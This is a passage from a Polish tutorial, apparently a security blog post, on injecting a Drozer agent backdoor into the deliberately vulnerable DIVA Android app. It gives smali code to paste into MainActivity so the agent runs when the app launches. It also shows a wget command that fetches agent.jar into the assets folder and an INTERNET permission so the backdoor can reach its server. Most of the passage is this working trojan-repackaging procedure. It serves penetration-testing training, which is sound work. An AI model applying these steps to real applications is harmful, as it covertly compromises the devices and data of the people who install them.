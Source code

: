 Konieczne jest teraz znalezienie głównej aktywności w rozpakowanej aplikacji. W tym celu otwieramy plik AndroidManifest.xml i odszukujemy aktywność, która posiada
{% highlight x %}
<intent-filter>
  <action android:name="android.intent.action.MAIN"/>
  <category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
{% endhighlight %}

W *backdoorrunner.out/smali/com/example/backdoorrunner/MainActivity.smali* znajduje się kod, który wcześniej napisaliśmy. Interesuje nas w nim metoda *runAgent*, którą w całości kopiujemy do *diva.out/smali/jakhar/aseem/diva/MainActivity.smali* oraz *onStart*, z której kopiujemy jedynie

{% highlight x %}
.line 27
invoke-direct {p0}, Lcom/example/backdoorrunner/MainActivity;->runAgent()V
{% endhighlight %}

i umieszczamy jako przedostatnią instrukcję w metodzie o tej samej nazwie. Numeracja z pierwszej linii nie musi się pokrywać z pozostałymi, oryginalnymi liniami. Jest wykorzystywana tylko do budowania czytelnych stack trace'ów i nie ma bezpośredniego wpływu na wykonanie kodu.

{% highlight x %}
.method protected onCreate(Landroid/os/Bundle;)V
[...]
    .line 20
    .local v0, "toolbar":Landroid/support/v7/widget/Toolbar;
    invoke-virtual {p0, v0}, Ljakhar/aseem/diva/MainActivity;->setSupportActionBar(Landroid/support/v7/widget/Toolbar;)V

    .line 27
    invoke-direct {p0}, Lcom/example/backdoorrunner/MainActivity;->runAgent()V

    .line 22
    return-void
.end method
{% endhighlight %}

Potrzebne jeszcze jest dostosowanie nazw pakietów do nowej aplikacji - wszystkie wystąpienia *com/example/backdoorrunner/MainActivity zmieniamy* na *jakhar/aseem/diva/MainActivity*.

Powinniśmy uzyskać taki kod: [MainActivity.smali](https://raw.githubusercontent.com/LogicalTrust/materials/master/drozer-backdoor/MainActivity.smali)

Kolejną rzeczą do wykonania w tym kroku, jest umieszczenie agent.jar w *diva.out/assets*
{% highlight x %}
$ wget -P diva.out/assets https://raw.githubusercontent.com/mwrlabs/drozer/develop/src/drozer/lib/agent.jar
{% endhighlight %}

Na koniec upewniamy się, że w AndroidManifest.xml jest uprawnienie pozwalające na korzystanie z sieci. W przypadku braku należy je dodać. Bez niego nasz backdoor nie byłby w stanie połączyć się z serwerem.

{% highlight x %}
<uses-permission android:name="android.permission.INTERNET"/>
{% endhighlight %}
